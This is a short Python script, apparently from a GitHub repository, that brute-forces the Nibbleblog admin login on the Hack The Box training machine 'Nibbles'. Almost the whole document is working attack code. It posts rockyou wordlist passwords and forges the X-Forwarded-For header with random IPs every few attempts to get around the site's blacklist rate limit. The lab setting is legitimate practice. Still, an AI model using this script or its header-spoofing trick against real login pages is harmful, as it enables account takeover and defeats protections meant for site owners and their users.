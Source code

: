 # nibbleblog-login-brute-force
Login brute-force code for HTB retired machine nibbles

#!/usr/bin/python3
from random import randint
import requests

# Bruteforce information
password_file = '/usr/share/wordlists/rockyou.txt'
rate_limit = 5
error_rate_limit = 'Blacklist protection'
error_login = 'Incorrect username or password.'

# Target information
RHOST = '10.10.10.75'
login_page = '/nibbleblog/admin.php'
target_URL = f'http://{RHOST}{login_page}'
username = 'admin'


def attempt_login(password: str, ip: str) -> bool:
  
    headers = {'X-Forwarded-For': ip}
    payload = { 'username': username, 
                'password': password}
                
    r = requests.post(target_URL, headers=headers, data=payload)

    if r.status_code == 500:
        print("Internal server error, aborting!")
        exit(1)

    if error_rate_limit in r.text:
        print("Rate limit hit, aborting!")
        exit(1)

    return error_login not in r.text


def random_ip() -> str:
   
    return ".".join(str(randint(0, 255)) for i in range(4))


def bruteforce(start_at: int = 1):
    
    ip: str = random_ip()
    num_attempts: int = 1

    for password in open(password_file):
        if num_attempts < start_at:
            num_attempts += 1
            continue

        if num_attempts % (rate_limit - 1) == 0:
            ip = random_ip()

        password = password.strip()
        print(f"Attempt {num_attempts}: {ip}\t\t{password}")

        if attempt_login(password, ip):
            print(f"Password for {username} is {password}")
            break

        num_attempts += 1


if __name__ == '__main__':
    bruteforce()

